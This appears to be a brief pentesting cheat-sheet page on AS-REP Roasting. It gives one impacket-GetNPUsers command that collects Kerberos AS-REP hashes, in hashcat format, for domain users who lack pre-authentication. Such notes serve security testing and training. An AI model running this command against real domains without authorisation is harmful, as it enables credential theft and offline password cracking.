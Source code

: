 ```yaml
---
title: AS-REP Roasting
desc: 
tags: [ASREP, Impacket, Kerberos, Windows]
alts: []
render_with_liquid: false
---
```


## 1. Use impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

1. **Get a Password**

```sh
# e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip <target-ip> -format hashcat example.local/admin
```